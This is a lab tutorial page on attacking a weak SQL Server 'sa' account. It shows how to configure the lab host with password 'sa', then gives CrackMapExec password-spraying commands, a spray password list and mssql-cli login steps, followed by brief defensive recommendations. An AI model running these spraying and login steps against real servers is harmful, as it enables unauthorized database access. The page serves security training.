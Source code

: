```yaml
---
description: >-
  By default the SA user is NOT enabled. Administrators might enable it during
  the installation and choose a weak password.
---
```


# SQL Server default login

## Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.

2\. Open "Microsoft SQL Server Management Studio"

![](<../../.gitbook/assets/image (32) (1) (1) (1) (1) (1) (1).png>)

3\. Login with the `Administrator` user using Windows Authentication.

4\. Expand the "Security" and "Logins" folders. Right click "sa" and select "Properties". Make sure "Enforce password policy" is unchecked and fill in the password `sa` twice.

![](<../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (2).png>)

## Attacking

### How it works

One of the default users (not enabled by default) for SQL Server is the SA user. Administrators might enable it during the installation and choose a weak password, such as the username.

### Tools

* [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)
* [mssql-cli](https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15)

### Executing the attack

1. Check if the MSSQL server on `WEB01` can be contacted from our Kali machine:

```
crackmapexec mssql 10.0.0.5 -d .
```

![](<../../.gitbook/assets/image (64) (1) (1) (1) (1) (1) (1) (1) (1).png>)

2\. Paste the following passwords in `passwords.txt` to spray with:

```
Password
Password01!
Password1!
Welcome01!
Welcome01
Welcome1!
Welcome1
sa
```

![](<../../.gitbook/assets/image (41) (1) (1).png>)

3\. Run Crackmapexec to connect to the MSSQL service running on `WEB01` and passwordspray the passwords till there is a succesfull login:

```
crackmapexec mssql 10.0.0.5 -u sa -p passwords.txt --local-auth
```

![](<../../.gitbook/assets/image (39) (1) (1) (1) (1) (1) (1) (1).png>)

We got a succesfull login as the `sa` user with the password `sa`.

4\. Run Crackmapexec again with the password sa and use the `-q` flag to try to execute the query `select @@version` to retrieve the MSSQL version.

```
crackmapexec mssql 10.0.0.5 -u sa -p sa --local-auth -q "select @@version;"
```

![](<../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png>)

5\. Connect to the database using mssql-cli.

```
mssql-cli -S 10.0.0.5 -U sa -P sa
```

![](<../../.gitbook/assets/image (4) (1) (1) (2).png>)

Check the executing commands page under SQL Server Attacks to learn to execute cmd commands:

{% content-ref url="../active-directory-attacks/sql-server-attacks/executing-commands.md" %}
[executing-commands.md](../active-directory-attacks/sql-server-attacks/executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations

* Make sure the password policy is enforced for all users on the SQL server.
* Dont use the sa account, this account is well to known and attackers will attempt to brute-force it.

### Detection



## References

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

{% embed url="https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15" %}
